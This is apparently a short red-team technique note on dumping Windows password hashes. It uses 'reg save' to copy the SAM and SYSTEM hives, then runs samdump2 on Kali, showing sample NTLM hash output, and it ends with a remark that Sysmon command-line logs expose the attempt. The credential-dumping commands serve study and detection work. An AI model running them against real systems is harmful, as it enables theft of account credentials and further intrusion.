

# Dumping Hashes from SAM via Registry

## Execution

Dumping the registry hives required for hash extraction:


```erlang
reg save hklm\system system
reg save hklm\sam sam
```


Once the files are dumped and exfiltrated, we can dump hashes with samdump2 on kali:


```erlang
root@~/tools/mitre/pwdump# samdump2 system sam 
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:9f288c9a9aee917e19d4b21928b98268:::
low:1003:aad3b435b51404eeaad3b435b51404ee:4bdaf9484819a077562ebeefaed6ca75:::
```


## Observations

Sysmon logs with commandlines will reveal credential dump attempts from the registry as expected:



